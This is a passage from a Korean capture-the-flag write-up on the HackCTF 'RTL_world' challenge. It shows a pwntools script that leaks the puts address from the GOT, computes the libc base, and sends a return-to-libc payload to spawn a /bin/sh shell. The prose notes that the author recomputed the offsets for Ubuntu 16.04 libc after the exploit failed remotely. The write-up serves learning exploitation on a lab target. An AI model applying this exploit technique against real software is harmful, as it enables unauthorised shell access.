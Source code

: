 ```python
payload += p32(0x08048983)
payload += puts_got

p.sendline(payload)

puts_addr = p.recv(4)
log.info(puts_addr)
puts_addr = u32(puts_addr)

log.info("leak = "+hex(puts_addr))

p.recvuntil(">>> ")

p.sendline("5")

p.recvuntil("[Attack] > ")

y_libc_base = puts_addr - puts_offset 
system_addr = y_libc_base + sys_offset 
bin_sh_addr = y_libc_base + bin_offset

payload = "A"*144
payload += p32(system_addr) 
payload +="BBBB"
payload += p32(bin_sh_addr)

p.sendline(payload)
p.interactive()
```

<br><br>
### 4. 몰랐던 개념

몰랐던 개념은 없었다

이번 문제는 사실 이렇게 풀지 않아도, 메뉴 선택을 이용하여 system 함수와 /bin/sh 주소를 구하여 쉽게 익스를 할 수 있었다.

하지만 yes_or_no 문제를 풀면서 공부하고 이해했던 개념들을 복습하기 위해 이렇게 풀었다

하나 시행착오는 해당 문제는 18.04버전에서 진행했는데, remote가 아닌 process로 붙어서 진행했을때는 성공적으로 쉘이 떨어졌지만 remote로 진행했을때는 동작하지 않았다.

따라서 libc database online을 이용해서 leak한 puts 주소를 가지고 libc 버전을 확인하였는데
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_world/Untitled%201.png)

다음과 같이 해당 libc는 16버전으로 확인이 되었다

따라서 16.04 우분투환경으로 다시 오프셋을 구하여 코드를 작성하였고, 64비트 환경에서 32비트 elf 파일 실행을 위해 추가적으로 i3 머시기 패키지를 설치하여 실행하였다